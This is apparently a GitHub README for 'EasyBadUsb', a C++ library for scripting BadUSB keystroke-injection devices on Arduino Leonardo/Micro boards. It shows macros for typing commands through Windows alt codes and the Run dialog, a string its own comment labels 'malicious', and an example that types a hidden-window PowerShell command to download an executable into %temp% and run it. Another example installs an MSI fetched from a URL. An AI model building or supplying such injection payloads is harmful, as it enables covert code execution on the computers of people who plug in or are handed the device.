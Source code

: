# EasyBadUsb
simple header only lib written in C++ to make BadUsb scripting easier (Arduino IDE)

### tested only on ATmega32u4 (HW-374) Arduino Leonardo or Micro
![screen](images/dis.jpg)
[image from github.com/ElijahCuff/HW-374](https://github.com/ElijahCuff/HW-374)

# v2 with alt codes (only for Windows)

### first, include alt.hpp in your sketch file
```cpp
#include "alt.hpp"
```

### then between BEGIN() ... END() we write our commands
```cpp
BEGIN()

//
// commands
//

END()
```

### lowercase input on any keyboard layout expense of alt codes (only works on Windows)

#### supported characters (eng letters, numbers and basic special characters)

```cpp
static const alt_code alt_codes_array[] = {
    {' ', 32},  {'B', 66},  {'C', 67},  {'D', 68},  {'E', 69},  {'F', 70},
    {'G', 71},  {'H', 72},  {'I', 73},  {'J', 74},  {'K', 75},  {'L', 76},
    {'M', 77},  {'N', 78},  {'O', 79},  {'P', 80},  {'Q', 81},  {'R', 82},
    {'S', 83},  {'T', 84},  {'U', 85},  {'V', 86},  {'W', 87},  {'X', 88},
    {'Y', 89},  {'Z', 90},  {'a', 97},  {'b', 98},  {'c', 99},  {'d', 100},
    {'e', 101}, {'f', 102}, {'g', 103}, {'h', 104}, {'i', 105}, {'j', 106},
    {'k', 107}, {'l', 108}, {'m', 109}, {'n', 110}, {'o', 111}, {'p', 112},
    {'q', 113}, {'r', 114}, {'s', 115}, {'t', 116}, {'u', 117}, {'v', 118},
    {'w', 119}, {'x', 120}, {'y', 121}, {'z', 122}, {'0', 48},  {'1', 49},
    {'2', 50},  {'3', 51},  {'4', 52},  {'5', 53},  {'6', 54},  {'7', 55},
    {'8', 56},  {'9', 57},  {'!', 33},  {'"', 34},  {'#', 35},  {'$', 36},
    {'%', 37},  {'&', 38},  {'\'', 39}, {'(', 40},  {')', 41},  {'*', 42},
    {'+', 43},  {',', 44},  {'-', 45},  {'.', 46},  {'/', 47},  {':', 58},
    {';', 59},  {'<', 60},  {'=', 61},  {'>', 62},  {'?', 63},  {'@', 64},
    {'[', 91},  {'\\', 92}, {']', 93},  {'^', 94},  {'_', 95},  {'`', 96},
    {'{', 123}, {'|', 124}, {'}', 125}, {'~', 126}, {'A', 65}};
```

#### alt codes lib functional

```cpp
    const char *payload_str = "powershell -windowstyle hidden..."; // malicious string

    // void alt_print(const char *str, size_t t_sleep)
    alt_print(payload_str, 0); // (malicious_string, sleep time for enter next char)
    /* sleep time for enter next char.. because i had problems on Windows 7
    that the system was unable to process alt codes, on Win 10/11 work well */
```





#### buttons definitions
```cpp
#define MKEY_LEFT_CTRL (0x0001 << 0x00)
#define MKEY_LEFT_WIN (0x0001 << 0x01)
#define MKEY_LEFT_SHIFT (0x0001 << 0x02)
#define MKEY_LEFT_ALT (0x0001 << 0x03)
#define MKEY_ENTER (0x0001 << 0x04)

#define MKEY_LEFT_ARROW (0x0001 << 0x05)
#define MKEY_RIGHT_ARROW (0x0001 << 0x06)

#define MKEY_CH_R (0x0001 << 0x07)
#define MKEY_CH_A (0x0001 << 0x08)
#define MKEY_CH_C (0x0001 << 0x09)

#define MKEY_FN_4 (0x0001 << 0x0A)
```

### The PRESS functions is used to press special keys and simultaneously press several keys on the keyboard
```cpp
// #define PRESS(BTNS, t_sleep)
PRESS(MKEY_LEFT_CTRL | MKEY_LEFT_SHIFT | MKEY_ENTER, 200) // (buttons to be pressed, sleep time for press next button)

// #define PRESS_KRELALL(BTNS, t_sleep, t_wait)
PRESS_KRELALL(MKEY_LEFT_WIN | MKEY_CH_R, 200, 500) // (buttons to be pressed, sleep time for press next button, sleep time to release the buttons)

// bool release_btn(const uint8_t button)
release_btn(MKEY_ENTER) // (buttons to be released)

// void tprint(const char *str, size_t t_sleep)
tprint("echo Hello World!", 30) // (string, sleep time for enter next char), default print (NOT ALT)

// #define WAIT(ms)
WAIT(500) // delay 500 ms
```


### convenient definitions
```cpp
// #define RUN_ENTER(command, t_sleep_print)
    RUN_ENTER("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))

// #define RUN_ENTER_AS_ADMIN(command, t_sleep_print)
    RUN_ENTER("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))
    // will be run as administrator
```


### example
```cpp
#include "alt.hpp"

BEGIN()

    const char *str = "powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('"
    "https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe', '%temp%/py_install.exe'); %temp%/py_install.exe";

    RUN_ENTER(str, 0)

END()
```

### demo
[![demo](https://img.youtube.com/vi/Osa8dZCe86s/0.jpg)](https://www.youtube.com/watch?v=Osa8dZCe86s)


